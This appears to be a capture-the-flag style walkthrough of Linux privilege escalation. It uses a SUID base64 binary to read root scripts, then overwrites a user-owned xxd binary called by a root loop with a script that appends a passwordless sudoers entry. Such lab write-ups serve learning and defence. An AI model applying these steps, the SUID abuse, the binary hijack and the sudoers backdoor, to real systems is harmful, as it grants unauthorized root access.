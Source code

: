 #### Look to Identify any Vulnerable Scripts
```bash
ps aux | grep root
```
- `/root/keygen/run.sh` script is running, but we don't have a privilege to read the script.

#### Look for other Vulnerabilities
```bash
find / -type f -perm -4000 2>/dev/null
```
- `/usr/bin/base64` has ***SUID*** bit enabled.
- Look for the ***base64*** in `GTFOBins`.

#### Use `base64` to read the Script
```bash
base64 /root/keygen/run.sh | base64 -d
```

**Output**
```bash
#!/bin/bash

while /bin/true; do
    /root/keygen/keygen.sh
	sleep 60
done &
```

#### Use `base64` to read the `keygen.sh` Script
```bash
base64 /root/keygen/keygen.sh | base64 -d
```

**Output**
```bash
#!/bin/bash

base32 /home/merle/keygen/devkey > /var/keys/base32/secretkey
base64 /home/merle/keygen/devkey > /var/keys/base64/secretkey
xxd -pu /home/merle/keygen/devkey > /var/keys/hex/hexkey
```
- This script is under the `root` folder and running the `xxd` binary inside it, which means if I can manage to change the `xxd` binary to the my code, then it will execute my code.

## `xxd` is not using the full path making it a good candidate for privilege escalation.
#### Enumerate `xxd`
**Check the location**
```bash
which xxd

# output
/usr/bin/xxd
``` 

**Check Permissions and the file owner**
```bash
ls -al /usr/bin/xxd

# output
-rwsr-xr-x 1 merle merle 18712 Feb  1  2022 /usr/bin/xxd
```
- Even though the `xxd` binary is owned by the user `merle`, the script `/root/keygen/keygen.sh` calls this binary from `root` providing us an elevated privilege.

#### Create a Script to add the user `merle` to Sudoers list
```bash
vim xxd
```

```bash
#!/bin/bash
echo "merle ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

```bash
chmod +x xxd
```

## Important Consideration
- **PATH Hijacking won't work here** because when you export the `/tmp` folder and place your malicious `xxd` inside it. You are ***only modifying the environment of your current shell session*** - ***not root's***.
- So, when the root-owned `keygen.sh` runs, it doesn't user your PATH.

#### Overwrite the `/usr/bin/xxd` binary with `cp`
```bash
cp xxd /usr/bin/xxd
```

#### Escalate to the Root user
```bash
sudo su root
```








